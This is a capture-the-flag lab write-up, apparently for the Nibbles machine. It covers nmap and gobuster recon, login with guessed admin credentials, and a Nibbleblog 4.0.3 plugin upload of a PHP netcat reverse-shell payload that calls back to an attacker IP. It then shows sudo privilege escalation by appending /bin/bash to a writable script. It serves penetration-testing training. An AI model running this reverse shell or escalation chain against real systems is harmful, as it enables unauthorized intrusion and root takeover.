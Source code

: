 # Recon

Found open port with ssh(22) and http(80)

```
> nmap -p- 10.10.10.75 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-17 20:31 CET
Nmap scan report for 10.10.10.75
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.19 seconds
```

Simple request at ip reveals existence of /nibbleblog/ directory.


```
> curl 10.10.10.75
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Web content enumeration scan reveals admin.php file.

```
> gobuster dir -u http://10.129.200.170/nibbleblog/ --wordlist common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.200.170/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/22 20:00:27 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 304]
/.htaccess            (Status: 403) [Size: 309]
/.htpasswd            (Status: 403) [Size: 309]
/README               (Status: 200) [Size: 4628]
/admin                (Status: 301) [Size: 327] [--> http://10.129.200.170/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 331] [--> http://10.129.200.170/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/plugins/]
/themes               (Status: 301) [Size: 328] [--> http://10.129.200.170/nibbleblog/themes/]
```

# Exploitation 

After accessing admin.php file and some tries, it was possible to guess admin credentials:

login: admin
password: nibbles

![](src/1.jpg)

Server has vulnerable version of nibbles blog (4.0.3).
That means it is possible to upload arbitrary .php file on it, and execute it's contents.
This can be done via plugins menu:

![](src/2.jpg)

We create simple reverse-shell payload:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9443 >/tmp/f"); ?>

```

Then, we upload it via plugin system, clicking browse, selecting file with payload,
and choosing "Save changes". 

After that, we listen on 9943 port on attack machine, and activate reverse shell
with curl request.

```sh
nc -lvnp 9443
curl http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php

```

After that, we upgrade our shell with python script on victim machine:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'

```

# Privilege Escalation 

In user home directory, there are files:

```
> ls
personal.zip  user.txt

```

After unzipping contents of personal.zip, following folder structure appears:

```
> tree personal

personal
`-- stuff
    `-- monitor.sh

1 directory, 1 file

```

File monitor.sh is writeable by everyone:

```
$ ls -al monitor.sh

-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh

```

And can be run with sudo without password:

```
$ sudo -l

Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

It can be exploited by adding /bin/bash at the end of the file, and executing it
with sudo:

```
$ echo "/bin/bash" >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh

```

We gain access to root shell.

```
# cat /root/root.txt
de5e5d6619862a8aa5b9b212314e0cdd
```
